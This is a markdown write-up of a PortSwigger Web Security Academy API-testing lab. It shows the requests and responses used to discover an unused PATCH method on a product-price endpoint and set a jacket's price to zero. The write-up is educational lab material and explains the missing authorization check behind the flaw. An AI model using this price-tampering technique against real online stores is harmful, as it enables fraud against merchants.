










# Finding and Exploiting an Unused API Endpoint

**Platform:** PortSwigger Web Security Academy
**Difficulty:** Easy (Apprentice)
**Type:** Lab - API Testing
**Objective:** Exploit a hidden API endpoint to buy a **Lightweight l33t Leather Jacket**
**Available Credentials:** `wiener:peter`
**Key Vulnerability:** An unused `PATCH` method on a price-reading endpoint accepts arbitrary price updates with no authorization check

---

## Attack Flow

```text
Login wiener:peter --> view "Lightweight l33t Leather Jacket"
Burp history --> GET /api/products/1/price
Repeater --> change method to PATCH
400: Only 'application/json' Content-Type is supported
Add Content-Type header + empty JSON body
400: 'price' parameter missing in body
Add {"price": 0} to body --> 200 OK, price updated
Reload product page --> jacket now free
Add to cart --> checkout --> lab solved
```

---

## 1. Starting Point



Login: `wiener:peter`

---

## 2. Target Product



---

## 3. Reviewing the API Call

```http
GET /api/products/1/price HTTP/2
```

```json
{
    "price":"$1337.00",
    "message": "Our warehouse is on fire, purchase now before all stock is burnt to a crisp!"
}
```



---

## 4. Testing PATCH

```http
PATCH /api/products/1/price HTTP/2
```

```json
{"type":"ClientError","code":400,"error":"Only 'application/json' Content-Type is supported"}
```



---

## 5. Adding Content-Type

```http
PATCH /api/products/1/price HTTP/2
Content-Type: application/json

{}
```



---

## 6. Discovering the Required Field

```json
{"type":"ClientError","code":400,"error":"'price' parameter missing in body"}
```



---

## 7. Supplying the Price

```json
{"price": 0}
```



---

## 8. Successful Exploitation

```json
{"price":"$0.00"}
```



---

## 9. Confirming & Completing the Purchase



Add to cart → checkout via `/cart`.



✅ Lab solved — jacket purchased for $0.00.

---

## Why It Works

- The endpoint accepts `PATCH` even though the UI only ever sends `GET` requests to it
- No authorization check confirms the user has permission to modify pricing data
- Verbose error messages walked the exploitation step-by-step: content-type first, then the missing field name
- The backend accepted a write capability the front-end never exposed at all

---

## References

- [PortSwigger — Finding and exploiting an unused API endpoint](https://portswigger.net/web-security/api-testing/lab-finding-and-exploiting-unused-api-endpoint)
- [PortSwigger — API Testing methodology](https://portswigger.net/web-security/api-testing)
